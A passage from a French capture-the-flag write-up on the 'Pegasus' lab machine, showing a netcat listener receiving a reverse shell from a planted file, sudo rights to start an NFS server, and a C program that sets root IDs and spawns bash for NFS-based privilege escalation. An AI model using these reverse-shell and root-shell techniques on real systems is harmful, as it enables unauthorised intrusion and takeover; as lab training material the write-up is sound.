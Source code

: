 On ne voit pas le message `Goodbye!` car l'affichage a bien été remplacé par une exécution. J'avais préalablement placé un fichier `Goodbye!` contenant une commande pour lancer [un reverse shell Python](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) :

```bash
$ sudo ncat -l -p 443 -v
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.57.5.
Ncat: Connection from 192.168.57.5:35456.
$ id
uid=1001(mike) gid=1001(mike) euid=1000(john) groups=1000(john),1001(mike)
```

Enfiiiiin !

## Et vice et versa

Mais même combat avec l'utilisateur *John*, on est géné par ce SSH inutilisable.

L'utilisateur *John* est habilité à démarrer le serveur NFS :

```bash
john@pegasus:~$ sudo -l
Matching Defaults entries for john on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User john may run the following commands on this host:
    (root) NOPASSWD: /usr/local/sbin/nfs
```

Ce qu'on s'empresse de faire :

```bash
john@pegasus:~$ sudo /usr/local/sbin/nfs start
 * Exporting directories for NFS kernel daemon...                                                                                                                                                          [ OK ]
 * Starting NFS kernel daemon                                                                                                                                                                              [ OK ]
john@pegasus:~$ showmount -e 127.0.0.1
Export list for 127.0.0.1:
/opt/nfs *
```

La suite est très classique. Il faut écrire et compiler le programme C suivant :

```c
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        setregid(0, 0);
        system("/bin/bash");
        return 0;
}
```
